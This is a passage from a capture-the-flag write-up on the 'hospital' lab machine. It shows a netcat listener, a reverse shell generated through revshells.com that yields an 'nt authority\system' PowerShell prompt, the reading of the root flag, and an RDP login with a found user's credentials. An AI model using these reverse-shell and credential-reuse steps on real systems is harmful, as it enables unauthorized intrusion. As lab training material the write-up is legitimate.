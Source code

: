 Now we setup a local listener.

```shell
labadmin@labmachine:~/hospital$ nc -lvnp 6002
Listening on 0.0.0.0 6002
```

We use [https://www.revshells.com/](https://www.revshells.com/) to generate a base64 encoded reverse shell for powershell and change whoami.

Load the URL in web browser and we get reverse shell.

```shell
labadmin@labmachine:~$ nc -lvnp 6002
Listening on 0.0.0.0 6002
Connection received on 10.10.11.241 6107
whoami
nt authority\system
PS C:\xampp\htdocs>
```

Now we find root flag at `C:\Users\Administrator\Desktop\root.txt`

```shell
PS C:\xampp\htdocs> cat C:\Users\Administrator\Desktop\root.txt
[OMITTED]
```

### RDP

We can also use Dr Brown credentials and login using RDP.

```shell
labadmin@labmachine:~$ xfreerdp /u:drbrown /v:10.10.11.241
[18:28:03:081] [1385:1386] [WARN][com.freerdp.crypto] - Certificate verification failure 'self-signed certificate (18)' at stack position 0
[18:28:03:081] [1385:1386] [WARN][com.freerdp.crypto] - CN = DC.hospital.htb
[18:28:03:082] [1385:1386] [ERROR][com.freerdp.crypto] - @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
[18:28:03:083] [1385:1386] [ERROR][com.freerdp.crypto] - @           WARNING: CERTIFICATE NAME MISMATCH!           @
[18:28:03:083] [1385:1386] [ERROR][com.freerdp.crypto] - @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
[18:28:03:083] [1385:1386] [ERROR][com.freerdp.crypto] - The hostname used for this connection (10.10.11.241:3389)
[18:28:03:083] [1385:1386] [ERROR][com.freerdp.crypto] - does not match the name given in the certificate:
[18:28:03:083] [1385:1386] [ERROR][com.freerdp.crypto] - Common Name (CN):
[18:28:03:083] [1385:1386] [ERROR][com.freerdp.crypto] -        DC.hospital.htb
[18:28:03:083] [1385:1386] [ERROR][com.freerdp.crypto] - A valid certificate for the wrong name should NOT be trusted!
Certificate details for 10.10.11.241:3389 (RDP-Server):
        Common Name: DC.hospital.htb
        Subject:     CN = DC.hospital.htb
        Issuer:      CN = DC.hospital.htb
        Thumbprint:  1c:6f:02:73:27:6f:20:23:81:1c:27:42:6f:6a:60:66:b6:f7:20:09:01:d8:8d:bb:0c:05:37:82:d9:7c:87:13
The above X.509 certificate could not be verified, possibly because you do not have
the CA certificate in your certificate store, or the certificate has expired.
Please look at the OpenSSL documentation on how to add a private CA to the store.
Do you trust the above certificate? (Y/T/N) Y
Password:
[18:28:23:306] [1385:1386] [INFO][com.freerdp.gdi] - Local framebuffer format  PIXEL_FORMAT_BGRX32
[18:28:23:306] [1385:1386] [INFO][com.freerdp.gdi] - Remote framebuffer format PIXEL_FORMAT_BGRA32
[18:28:23:368] [1385:1386] [INFO][com.freerdp.channels.rdpsnd.client] - [static] Loaded fake backend for rdpsnd
[18:28:23:369] [1385:1386] [INFO][com.freerdp.channels.drdynvc.client] - Loading Dynamic Virtual Channel rdpgfx
```